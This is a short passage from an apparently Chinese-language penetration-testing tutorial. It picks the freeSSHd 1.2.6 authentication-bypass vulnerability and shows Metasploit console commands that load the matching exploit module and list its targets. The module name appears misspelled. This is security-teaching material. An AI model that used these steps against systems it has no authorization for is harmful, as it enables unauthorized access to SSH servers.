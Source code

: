 ![](../img/1_AaTz4ZArA3hPEVmz4tdlzg.webp)

这里我们选择 “free**SSH**d 1.2.6 — Authentication Bypass (Metasploit)”漏洞。

```bash
msfconsole //打开Metasploit框架
use exploit/windows/ssh/fresshd_authbypass
show targets  //选择目标
```

![](../img/1_zh9b47VDFImR3SYqO0aLtg.webp)